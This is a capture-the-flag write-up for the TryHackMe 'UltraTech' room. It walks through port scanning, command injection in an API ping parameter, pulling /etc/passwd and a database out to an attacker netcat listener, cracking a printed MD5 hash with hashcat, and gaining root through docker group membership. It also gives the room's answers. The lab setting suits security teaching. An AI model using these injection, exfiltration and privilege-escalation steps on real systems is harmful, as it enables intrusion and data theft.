








# UltraTech

Difficulty: Medium

# Introduction
Description: The basics of Penetration Testing, Enumeration, Privilege Escalation and WebApp testing.

**~_. UltraTech ._~**

_This room is inspired from real-life vulnerabilities and misconfigurations_ _I encountered during security assessments._

_If you get stuck at some point, take some time to keep enumerating._

				**[ Your Mission ]**

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have

is the company's name and their server's IP address.

Start this room by hitting the "deploy" button on the right!

  

Good luck and more importantly, have fun!

__

_Lp1_ <fenrir.pro>

  

				**[ Extra Information ]**

If you have any comment or question regarding this room, you can contact me on TryHackMe's Discord.

# Enumeration

First up as usual we kick off our reconnaissance with an Nmap scan to discover open ports and services on our target machine.

Nmap scan result:

!(attachments/20231231160736.png)
*Note: The IP will be different for the rest of the write-up because i restarted the machine for this write-up*

There are a 4 open ports and the rest are filtered. We have http running on port 8081 and 31331, which means it's a website and we can visit them. Ftp is also open on port 21 but no anonymous login enabled so we have to get credentials to login as well as ssh port 22. Next up is to visit the websites.

Port 8081 just indicates there is an API in use.

while port 31331 has an actual website.

**Question 1**:
Which software is using the port 8081?  Node.js 

**Question 2**: 
Which other non-standard port is used? 31331

**Question 3**: 
Which software using this port? Apache

**Question 4:**
Which GNU/Linux distribution seems to be used? Ubuntu

**Question 5**:
The software using the port 8081 is a REST api, how many of its routes are used by the web application? 

Viewing the source code for the site running on  31331 we don't get any vital info. So lets perform a directory brute-force using dirsearch to find any hidden directories.

Dirsearch Result:

here we can see we have a robots.txt file, lets take a look.

Let's navigate to that directory

Even more directories to check through!

here we have a login page where we can test default credentials like admin:admin

this then redirects us to the api serving on port 8081

We have also found the first route which is /auth with a login and password parameter. Checked for command injection but it isn't present

Let's try to find directories on this site:

Disearch Result:

Here we can see 2 routes /auth and /ping this answers the question 5. Yes, /auth and /auth/are the same.

Let's try to visit /ping

We are met with an error. Going back to the /partners.html page where we have a login page. Using burpsuite to intercept the request:

Notice that it also sends a request to /ping on port 8081 with an ip parameter which accepts the sites IP. We have successfully gotten the parameter and can test for command injection vulnerability. 

by setting up a tcpdump listener i can successfully ping my ip address. Next step is to try various methods on how to inject commands., [this](https://github.com/payloadbox/command-injection-payload-list) site has a ton of payloads you can use for both Unix like and windows.

*Note: There are ton of ways you can do this so feel free to test different methods, but i would like to show the method i used at first when i did this CTF*

After trying various payloads, i discovered a way to transfer files to my machine using netcat.

First up i setup a netcat listener  and specify the filename i want the contents to be in `nc -lvnp <PORT> > filename`

I'll first try to output the contents of /etc/passwd

and then use netcat to connect back to my ip on the listening port and also specified the file i want. `nc <IP> <PORT> /bin/bash < filename`. The single quotes is part of the command injection payload, so all commands should be inside of it.

a connection was received, now i can stop the listener and cat the file.

Just like that i can read files on the server.
# Initial Access

**Question 6**:
There is a database lying around, what is its filename?

**Question 7:**
What is the first user's password hash?

We can transfer the database and display the contents on our machine using the same method.

Here we have the user: r00t and the hash: f357a0c52799563c7c7b76c1e7543a32

**Question 8**:
What is the password associated with this hash?

Now to identify and crack the hash.

I'll use a tool called [haiti](https://en.kali.tools/?p=1567#google_vignette) to identify the hash.

Possible md5 hash, now to use hashcat to crack it with the wordlist rockyou.txt
`hashcat -m 0 "f357a0c52799563c7c7b76c1e7543a32" /usr/share/wordlists/rockyou.txt`

since i have cracked it before i just use the `--show` flag to display it.

Now we have a username and password finally.

We can use it to login to ssh and ftp. They have the same credentials. FTP has the same file you'll see when you login to the machine using ssh, so FTP login is kind of pointless.

`ssh username@IP`

no we are not root yet lol....the name of the user is `r00t`.
# Privilege Escalation

**Question 9**:
 What are the first 9 characters of the root user's private SSH key? 
This obviously means we have to perform privilege escalation to become the actual root user.

You can do the following to check for privilege escalation vectors:
1. Run the command `sudo -l` to list all command that can be used to list the allowed or forbidden commands for the currently logged in user.
2. Run the command `find /-perm -u=s 2>/dev/null` to find files with SUID bit set.
3. Check cronjobs `cat /etc/crontab`
4. Download and Transfer a linux privilege escalation script called [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to automate the privilege escalation enumeration.
But none of these apart from maybe the last one if you look at the results closely.

The vector we are using is docker. Running the `id` command shows the user is part of a docker group which means there's probably a docker container running on the machine.

Running the command `docker image ls` to list docker images 

We can see there is one bash docker image. Going to [GTFObins](https://gtfobins.github.io/) and searching  for docker will give us all we need for the priv esc.

They have even explained what the command does for us so it's easy to understand. The only slight change to make is to change the "alpine" to "bash" since that is the image present.

and just like that we are root!. now to find the ssh private key and get the first 9 letters.

GGs 🤝